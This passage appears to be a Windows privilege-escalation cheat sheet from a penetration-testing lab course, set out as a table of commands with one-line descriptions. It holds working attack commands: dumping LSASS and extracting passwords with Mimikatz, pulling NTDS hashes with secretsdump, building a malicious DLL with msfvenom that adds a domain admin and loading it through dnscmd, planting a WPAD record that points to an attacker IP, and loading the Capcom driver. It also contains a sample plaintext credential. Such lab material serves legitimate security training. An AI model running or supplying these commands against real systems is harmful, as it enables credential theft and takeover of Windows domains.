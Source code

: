 | `procdump.exe -accepteula -ma lsass.exe lsass.dmp`                                                                                                                                    | Take memory dump with ProcDump                             |
| `sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`                                                                                                                         | Use MimiKatz to extract credentials from LSASS memory dump |
| `dir /q C:\backups\wwwroot\web.config`                                                                                                                                                | Checking ownership of a file                               |
| `takeown /f C:\backups\wwwroot\web.config`                                                                                                                                            | Taking ownership of a file                                 |
| `Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`                                             | Confirming changed ownership of a file                     |
| `icacls “C:\backups\wwwroot\web.config” /grant htb-student:F`                                                                                                                         | Modifying a file ACL                                       |
| `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`                                                                                                            | Extract hashes with secretsdump.py                         |
| `robocopy /B E:\Windows\NTDS .\ntds ntds.dit`                                                                                                                                         | Copy files with ROBOCOPY                                   |
| `wevtutil qe Security /rd:true /f:text \| Select-String "/user"`                                                                                                                      | Searching security event logs                              |
| `wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"`                                                                                       | Passing credentials to wevtutil                            |
| `Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}` | Searching event logs with PowerShell                       |
| `msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`                                                                              | Generate malicious DLL                                     |
| `dnscmd.exe /config /serverlevelplugindll adduser.dll`                                                                                                                                | Loading a custom DLL with dnscmd                           |
| `wmic useraccount where name="netadm" get sid`                                                                                                                                        | Finding a user's SID                                       |
| `sc.exe sdshow DNS`                                                                                                                                                                   | Checking permissions on DNS service                        |
| `sc stop dns`                                                                                                                                                                         | Stopping a service                                         |
| `sc start dns`                                                                                                                                                                        | Starting a service                                         |
| `reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`                                                                                                       | Querying a registry key                                    |
| `reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll`                                                                              | Deleting a registry key                                    |
| `sc query dns`                                                                                                                                                                        | Checking a service status                                  |
| `Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`                                                                                             | Disabling the global query block list                      |
| `Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3`                                                | Adding a WPAD record                                       |
| `cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`                                                                                                                             | Compile with cl.exe                                        |
| `reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"`                                                                                    | Add reference to a driver (1)                              |